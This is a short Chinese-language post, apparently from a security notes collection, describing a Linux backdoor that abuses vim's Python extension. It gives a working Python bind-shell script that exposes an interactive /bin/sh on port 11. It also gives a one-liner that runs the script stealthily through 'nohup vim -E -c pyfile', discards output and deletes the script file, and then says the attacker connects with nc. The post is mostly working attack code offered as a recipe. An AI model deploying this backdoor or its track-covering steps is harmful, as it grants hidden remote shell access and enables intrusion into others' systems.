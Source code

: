 ```yaml
---
title: vim python 拓展后门
id: zhfly3493
---
```


# vim python 扩展后门

适用于安装了vim且安装了python扩展(绝大版本默认安装)的linux系统。可以通过vim的pyfile来执行python脚本。这里我复现使用了docker centos 6.8，yum默认安装的vim。下面的pdf是发现者对外公开的思路：

> https://github.com/ianxtianxt/WOTD

这里我们使用一个python开启本地监听11端口的脚本。 POC:

```
#from https://www.leavesongs.com/PYTHON/python-shell-backdoor.html
from socket import *
import subprocess
import os, threading, sys, time
if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',11))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True) 
```

```
$(nohup vim -E -c "pyfile dir.py"> /dev/null 2>&1 &) && sleep 2 && rm -f dir.py 
```

执行以后：

![image](../img/f0d0ea2865d9d8b8e9a0795e3b91ae5c.png)

![image](../img/f674d1ac7b3fe5795ee7e3ff00b175d2.png)

我在攻击机nc连接过去就可以了。
